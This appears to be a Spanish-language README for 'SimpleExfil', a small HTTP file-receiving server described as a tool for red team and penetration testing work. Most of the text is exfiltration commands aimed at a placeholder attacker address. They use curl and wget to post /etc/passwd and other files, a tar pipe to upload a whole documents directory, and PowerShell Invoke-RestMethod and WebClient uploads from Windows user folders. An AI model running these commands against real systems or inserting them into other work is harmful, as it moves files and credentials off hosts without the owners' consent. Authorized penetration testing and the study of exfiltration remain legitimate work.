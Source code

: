 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team y Penetration Testing.

### Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000
bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

# Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

# Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

# PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"

# Usando WebClient
$wc = New-Object System.Net.WebClient
$wc.UploadFile("http://[IP-ATACANTE]:8000", "C:\Users\user\file.txt")

🔧 Configuración
Puedes modificar las siguientes variables al inicio del script:
pythonPORT = 8000              # Puerto de escucha
UPLOAD_DIR = "./uploads"       # Directorio de destino
